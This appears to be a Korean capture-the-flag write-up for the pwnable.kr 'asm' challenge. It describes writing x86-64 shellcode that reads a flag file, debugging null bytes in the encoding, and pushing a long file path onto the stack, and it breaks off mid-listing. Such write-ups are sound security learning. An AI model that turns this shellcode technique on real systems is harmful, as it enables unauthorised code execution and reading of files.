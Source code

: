 objdump를 이용하면 asm 한줄 한줄이 어떤 byte code로 바뀌었는지 자세하게 볼수도 있다.
~~~
nasm -f elf64 shellcode.asm
ld -o shellcoder shellcode.o
objdump -d shellcoder
~~~

근데... 안된다. 아무것도 출력되지 않았다.
이상해서 저 shellcode를 그대로 돌려봤다. 그랬더니 /etc/passwd는 잘 출력된다
내가 뭘 실수했나 싶어 /home/asm/asm.c도 출력해 봤다. 잘 출력된다.
근데 /home/asm/this_is... 는 안된다! /home/asm_pwn/this_is... 도 당연히 안된다.

파일 명이 긴것과 상관이 있나 싶어서 objdump로 보니까 xor byte [rdi + (path의 길이)], 0x41 여기에서 path의 길이가 127보다 커지면 null byte가 들어간다.
혹시 이것때문인가 싶어 rdi에 100씩 더하는 식으로 null byte생성도 피해봤다. 
근데 그래도 안된다. 같은 방법으로 /etc/passwd나 /home/as/asm.c를 해보면 그건 또 잘된다. 도저히 이해가 안되었다.

왜그런걸까, 하고 gdb를 붙여보려 했는데 그러면 gdb에서 disas는 되는데 breakpoint가 안걸린다. seccucomp인가 하는 녀석 때문인건가?

이런저런 삽질 끝에 그냥 path를 다른 방식으로 넘겨보기로 했다. stack에 push 한 다음 그걸 넘겨주면 그건 에러날 여지가 전혀 없지 않을까 싶어서였다.

~~~
xor rax, rax
push rax

mov rax, 0x676e6f306f306f30
push rax
mov rax, 0x6f306f306f306f30
push rax
mov rax, 0x3030303030303030
push rax
mov rax, 0x3030306f6f6f6f6f
push rax
mov rax, 0x6f6f6f6f6f6f6f6f
push rax
mov rax, 0x6f6f6f6f6f6f6f6f
push rax
mov rax, 0x6f6f303030303030
push rax
mov rax, 0x3030303030303030
push rax
mov rax, 0x3030303030303030
push rax
mov rax, 0x3030306f6f6f6f6f
push rax
mov rax, 0x6f6f6f6f6f6f6f6f
push rax
mov rax, 0x6f6f6f6f6f6f6f6f
push rax
mov rax, 0x6f6f6f6f6f6f6f6f
push rax
mov rax, 0x6f6f6f6f6f6f6f6f
push rax
mov rax, 0x6f6f6f6f6f6f6f6f
push rax
mov rax, 0x6f6f6f6f6f6f6f6f
push rax
mov rax, 0x6f6f6f6f6f6f6f6f
push rax
mov rax, 0x6f6f6f6f6f6f6f6f
push rax
mov rax, 0x6f6f6f6f6f6f6f6c
push rax
mov rax, 0x5f797265765f7369
push rax
mov rax, 0x5f656d616e5f656c
~~~

[pwnable.kr]: https://pwnable.kr
[stack_overflow_chroot]: https://unix.stackexchange.com/questions/105/chroot-jail-what-is-it-and-how-do-i-use-it
[online_assembler_link]: https://defuse.ca/online-x86-assembler.htm